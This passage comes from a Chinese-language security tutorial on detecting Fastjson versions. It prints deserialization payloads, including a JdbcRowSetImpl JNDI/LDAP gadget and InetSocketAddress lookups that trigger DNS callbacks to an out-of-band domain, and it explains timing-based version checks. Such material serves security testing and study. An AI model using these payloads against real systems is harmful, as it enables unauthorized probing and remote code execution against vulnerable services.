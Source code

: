 ```plain
{"@type":"com.alibaba.fastjson.JSONObject","a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC","autoCommit":true}}
```

如果下面比上面响应快，说明版本处于`1.2.9`和`1.2.11`之间。

## 2.4 关键版本探测

### 2.4.1 v1.2.24

直接用`2.3`中所提到的延时判断方法即可。

### 2.4.2 v1.2.47

`payload31`：

```plain
{"username":{"@type": "java.net.InetSocketAddress"{"address":,"val":"rylxkswlfg.dgrh3.cn"}}}
```

或者：

```plain
[{"@type": "java.lang.Class","val": "java.io.ByteArrayOutputStream"},{"@type": "java.io.ByteArrayOutputStream"},{"@type": "java.net.InetSocketAddress"{"address":,"val":"rylxkswlfg.dgrh3.cn"}}]
```

都是可以的：  
[![](assets/1706254407-9610cddbad61f2b8f375fb87e92463ee.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203202-bdf9f7a4-bb7d-1.jpeg)  
[![](assets/1706254407-582feacac80f9293f65076026a5c3622.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203203-be9c40ea-bb7d-1.jpeg)

### 2.4.3 v1.2.68

